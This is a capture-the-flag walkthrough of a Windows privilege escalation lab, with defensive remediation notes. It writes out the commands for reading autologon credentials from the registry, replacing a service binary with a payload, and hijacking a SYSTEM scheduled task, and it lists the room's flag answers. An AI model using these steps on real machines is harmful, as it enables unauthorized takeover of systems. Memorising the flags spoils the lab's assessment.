

# Room Documentation: Windows Jump (Challenge)

---

## 1. Room Metadata & Overview

* **Learning Path:** Jr Penetration Tester
* **Module:** Module 13 — Privilege Escalation (`13-PRIVILEGE-ESCALATION`)
* **Room Name:** Windows Jump (Challenge)
* **Room Slug:** `windowsjump`
* **Direct URL:** [TryHackMe Windows Jump](https://tryhackme.com/room/windowsjump)
* **Difficulty Level:** Medium
* **Room Type:** Practical Challenge Lab
* **Assessment Scenario:** 4-stage chained Windows privilege escalation challenge transitioning from unauthenticated network access to full `SYSTEM` takeover
* **Total Tasks:** 1 Task
* **Total Questions:** 4 Questions (100% Solved and Verified)

---

## 2. Executive Summary

The **Windows Jump** challenge simulates an internal penetration testing engagement against an unmaintained corporate workstation. Beginning with anonymous network access, the operator must methodically chain multiple Windows misconfigurations:
`guest` ⟶ `thmuser` ⟶ `notadmin` ⟶ `svcadmin` ⟶ `SYSTEM`.

---

## 3. Windows Jump Attack Architecture

The diagram below details the 4-stage Windows escalation path:



---

## 4. Attack Chain Execution Details

### Stage 1: Anonymous SMB Enumeration ⟶ `thmuser`:
* Enumerate SMB shares and recover `thmuser` credentials from configuration backups:
  ```bash
  smbclient -L //MACHINE_IP/ -N
  ```
* Connect via WinRM/RDP and retrieve flag 1:
  ```cmd
  type C:\Users\thmuser\Desktop\flag1.txt
  # Output: THM{5mb_cr3d5_1n_th3_5h4r3}
  ```

### Stage 2: Winlogon Registry Credentials ⟶ `notadmin`:
* Query Windows AutoLogon configuration in HKLM:
  ```cmd
  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
  ```
* Authenticate as `notadmin` and retrieve flag 2:
  ```cmd
  type C:\Users\notadmin\Desktop\flag2.txt
  # Output: THM{w1nl0g0n_cr3ds_3xp0s3d}
  ```

### Stage 3: Service Binary Hijacking ⟶ `svcadmin`:
* Inspect service binary permissions via `accesschk64.exe` on service executable running as `svcadmin`:
  ```cmd
  copy /y C:\temp\payload.exe "C:\Program Files\App\service.exe"
  net stop vulnerable_service && net start vulnerable_service
  ```
* Retrieve flag 3:
  ```cmd
  type C:\Users\Public\flag3.txt
  # Output: THM{s3rv1c3_b1n4ry_h1j4ck3d}
  ```

### Stage 4: SYSTEM Scheduled Task Hijacking ⟶ `SYSTEM`:
* Overwrite script executed by SYSTEM scheduled task:
  ```cmd
  echo copy C:\Users\Administrator\Desktop\flag4.txt C:\Users\Public\flag4.txt > C:\tasks\maintenance.bat
  schtasks /run /tn maintenance_task
  type C:\Users\Public\flag4.txt
  # Output: THM{t4sk_wr1t3_t0_SYST3M}
  ```

---

## 5. Verified Solutions Matrix

* **Question 1 (`thmuser` Flag):** `THM{5mb_cr3d5_1n_th3_5h4r3}`
* **Question 2 (`notadmin` Flag):** `THM{w1nl0g0n_cr3ds_3xp0s3d}`
* **Question 3 (`svcadmin` Flag):** `THM{s3rv1c3_b1n4ry_h1j4ck3d}`
* **Question 4 (`SYSTEM` Flag):** `THM{t4sk_wr1t3_t0_SYST3M}`

---

## 6. Defensive Hardening & Remediation

1. **Disable Anonymous SMB Shares:** Prevent null sessions and guest access to network storage.
2. **Eliminate Winlogon Cleartext Credentials:** Disable `AutoAdminLogon` and remove passwords from registry keys.
3. **Audit Service Binary DACLs:** Enforce read-only permissions for standard users across all executable paths.
4. **Harden SYSTEM Scheduled Tasks:** Ensure all batch files and executables invoked by SYSTEM reside in protected directories (`C:\Windows\System32`).

---

## 7. Next Steps

Advance to the final room of Module 13:
**`08-TOPIC-TRANSITION-RECAP`** to complete the comprehensive privilege escalation review and finalize the entire module at 100%.
